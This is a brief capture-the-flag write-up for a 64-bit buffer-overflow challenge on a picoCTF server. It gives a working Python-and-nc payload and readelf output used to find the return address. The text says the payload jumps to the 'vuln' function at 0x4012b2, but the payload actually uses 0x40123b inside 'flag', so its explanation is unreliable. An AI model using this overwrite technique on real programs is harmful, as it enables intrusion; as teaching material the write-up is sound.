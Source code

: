 This tiny buffer overflow can be solved by this Python oneliner:

```bash
python3 -c 'import struct; print("A"*72 + struct.pack("<I", 0x000000000040123b).decode("utf8"))'  | nc saturn.picoctf.net 52476
```

But why?

First we have to find address of *vuln* function, that we have to force the program to jump to:

```console
[user@host x-sixty-what]$ readelf -s  vuln | grep FUN
     1: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND puts@GLIBC_2.2.5 (2)
     2: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     4: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fgets@GLIBC_2.2.5 (2)
     7: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND gets@GLIBC_2.2.5 (2)
     8: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     9: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
    10: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fopen@GLIBC_2.2.5 (2)
    11: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND exit@GLIBC_2.2.5 (2)
    29: 0000000000401190     0 FUNC    LOCAL  DEFAULT   15 deregister_tm_clones
    30: 00000000004011c0     0 FUNC    LOCAL  DEFAULT   15 register_tm_clones
    31: 0000000000401200     0 FUNC    LOCAL  DEFAULT   15 __do_global_dtors_aux
    34: 0000000000401230     0 FUNC    LOCAL  DEFAULT   15 frame_dummy
    45: 00000000004013b0     5 FUNC    GLOBAL DEFAULT   15 __libc_csu_fini
    48: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND puts@@GLIBC_2.2.5
    49: 00000000004012b2    32 FUNC    GLOBAL DEFAULT   15 vuln
    51: 00000000004013b8     0 FUNC    GLOBAL HIDDEN    16 _fini
    52: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND setresgid@@GLIBC[...]
    53: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND printf@@GLIBC_2.2.5
    54: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_mai[...]
    55: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fgets@@GLIBC_2.2.5
    60: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND gets@@GLIBC_2.2.5
    61: 0000000000401340   101 FUNC    GLOBAL DEFAULT   15 __libc_csu_init
    63: 0000000000401180     5 FUNC    GLOBAL HIDDEN    15 _dl_relocate_sta[...]
    64: 0000000000401150    47 FUNC    GLOBAL DEFAULT   15 _start
    65: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND getegid@@GLIBC_2.2.5
    67: 00000000004012d2   109 FUNC    GLOBAL DEFAULT   15 main
    68: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.2.5
    69: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fopen@@GLIBC_2.2.5
    70: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND exit@@GLIBC_2.2.5
    72: 0000000000401236   124 FUNC    GLOBAL DEFAULT   15 flag
    73: 0000000000401000     0 FUNC    GLOBAL HIDDEN    12 _init
```

It is **00000000004012b2**, we use it in Python in this part:
```python
struct.pack("<I", 0x000000000040123b).decode("utf8")
```
To get the address in a form, that can be send through input. And what about those "A"s? That's just string of precise length to inject *vunl* function address on the stack. It is quite easy to guess that by modifying its length and checking the *dmesg* errors. This process is greatly explained in this video: https://www.youtube.com/watch?v=YVlTDPhTA9U
